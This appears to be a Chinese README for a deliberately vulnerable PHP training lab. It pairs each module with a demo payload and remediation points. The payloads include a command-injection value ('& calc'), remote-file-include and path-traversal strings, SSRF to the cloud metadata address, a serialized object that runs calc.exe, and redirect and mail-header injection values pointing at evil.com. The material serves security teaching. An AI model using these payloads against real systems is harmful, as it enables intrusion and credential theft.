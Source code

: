## 文件上传绕过（modules/upload/index.php）
- 仅检查扩展名，可用双扩展：`shell.php.jpg`。
- 若服务端解析误配或结合文件包含可进一步 RCE。
- 修复要点：强校验 MIME 与内容、随机文件名、存储到非可执行目录、图片库解码二次校验。

## 文件包含 LFI/RFI（modules/fi/index.php）
- LFI：使用 `page=../../data/notes.txt` 绕过路径，读取任意文件（演示目录内）。
- RFI：若 `allow_url_include=On` 可尝试 `page=http://yourhost/payload.txt`。
- 修复要点：严格白名单/映射、禁用远程包含、路径归一化与限制根目录。

## 路径遍历（modules/path/index.php）
- `file=../core/init.php` 可读取源码。
- 修复要点：限制目录、拒绝 `..`、仅允许固定文件名或ID。

## 命令注入（modules/command/index.php）
- Windows 示例：`host=127.0.0.1 & calc` 注入系统命令。
- 修复要点：使用安全API（如 ping 库或禁用系统调用）、严格白名单、转义与拆分参数。

## SSRF（modules/ssrf/index.php）
- 请求任意URL：`url=http://127.0.0.1/` 或云环境 `http://169.254.169.254/`（如可访问）。
- 修复要点：禁止访问内网/环回、协议白名单与域名白名单、超时与响应大小限制。

## 不安全反序列化（modules/unserialize/index.php）
- 构造：`O:4:"Evil":1:{s:3:"cmd";s:8:"calc.exe";}` 触发 `__destruct`。
- 修复要点：拒绝反序列化不可信数据，使用 JSON；如必须，启用允许类白名单、禁用危险魔术方法。

## PHAR 对象注入（modules/phar/index.php）
- 若代码对 `phar://` 路径使用 `getimagesize()` 等函数，PHAR 元数据内置对象可自动反序列化。
- 测试：准备含恶意对象元数据的 `evil.phar`，访问 `path=phar:///绝对路径/evil.phar/test.jpg`。
- 修复要点：拒绝处理不可信 phar、仅处理真实图片文件、禁用自动反序列化。

## 开放重定向（modules/redirect/index.php）
- `to=https://evil.com/` 直接跳转，易钓鱼。
- 修复要点：限制跳转到站内路径、加入签名或白名单校验。

## 邮件头注入（modules/mail/index.php）
- `from` 字段可注入 CRLF：`noreply@example.com\r\nBCC: attacker@evil.com`
- 修复要点：校验邮件头、拒绝控制字符、使用安全邮件库。

## 弱加密与弱随机（modules/crypto/index.php）
- 使用 `md5 + rand` 生成令牌，容易预测。
- 修复要点：使用 `random_bytes`/`openssl_random_pseudo_bytes` 等强随机，令牌长度足够。

## 权限逻辑漏洞（modules/auth/index.php）
- `?admin=1` 即显示敏感信息，完全依赖参数。
- 修复要点：后端基于会话角色校验，严禁信任前端参数。
